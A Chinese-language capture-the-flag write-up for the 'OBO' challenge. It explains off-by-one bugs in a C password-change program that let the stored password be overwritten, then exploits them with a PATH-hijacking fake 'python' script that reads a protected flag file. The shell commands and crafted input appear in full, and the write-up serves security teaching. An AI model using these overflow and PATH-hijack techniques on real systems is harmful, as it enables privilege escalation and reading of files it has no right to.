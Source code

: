 # OBO
拿到一個更改密碼的程式碼，一眼能看出許多地方有邊界錯誤：
 * 在generate_hex_table 這個程式裡：
```
hex_table[256];
...
for (i = 0; i <= 256; ++i) hex_table[i] = -1;
for (i = 0; i <= 10; ++i) hex_table['0' + i] = i;
for (i = 0; i <= 6; ++i) hex_table['a' + i] = 10 + i;
for (i = 0; i <= 6; ++i) hex_table['A' + i] = 10 + i;
// I don't know why, but I was getting errors, and this fixes it.
hex_table[0] = 0;
```
 * 提示說：如果能找出為何會產生error，和為何加上這行
```
hex_table[0] = 0;
```
  可以讓程式正常運行的原因，就可以破解這關了。
 * 在檢查新輸入的密碼是否夠複雜的程式碼：
```
for (i = 0; i <= strlen(new_password); ++i) {
	int index = hex_table[(unsigned char) new_password[i]];
	if (index == -1) {
	   printf("Invalid character: %c\n", new_password[i]);
	   exit(1);
	}
	digits[index] = 1;
}
```
  可以看到因為邊界錯誤，把不該檢查的結束字元'\0'也做複雜度檢查，這就是為什麼上面要加入
```hex_table[0] = 0;```
  才會正常運行的原因。
 * 同理，也可以看到digits的邊界也超出了一格，這超出的一格會以**int長度為單位**複寫stack上緊鄰的東西，也就是password！
 * 注意到sizeof(int) = 4 byte, 而sizeof(char) = 1 byte，所以password的前四格會被覆寫成[1][0][0][0]，也就是說password變成了：*\x01*！
 * 那麼，接下來只剩下更改password的部份了。但很不幸的，這部份還沒有implement，我們需要找其他方法。
 * 仔細看一下呼叫python的code：
```snprintf(cmd, sizeof(cmd), "python set_password.py \"%s\"", password);```
  是用相對路徑開啟，所以說不定我們能複製創一個set_password.py在另一個目錄下，印出flag：
```
#!/bin/sh
cat /home/obo/flag.txt
```
  我放到自己的目錄底下/home_users/pico62895，但很可惜，obo在這裡不能開啟password所以失敗，早該預料到的。
 * 那麼剩下調整環境變數，創一個叫作python的script檔，在export到PATH中：
```
pico62895@shell:~$ vim python
#!/bin/sh
cat /home/obo/flag.txt
pico62895@shell:~$ chmod +x python 
pico62895@shell:~$ export PATH=/home_users/pico62895:$PATH
#!/bin/sh
cat /home/obo/flag.txt
```
 * 然後再執行程式：
```
pico62895@shell:~$ (echo -e "123456789abcdefg\n\x01") | /home/obo/obo
New password: Confirm old password: watch_your_bounds
Password changed!
```
 * 成功取得 flag = watch_your_bounds。
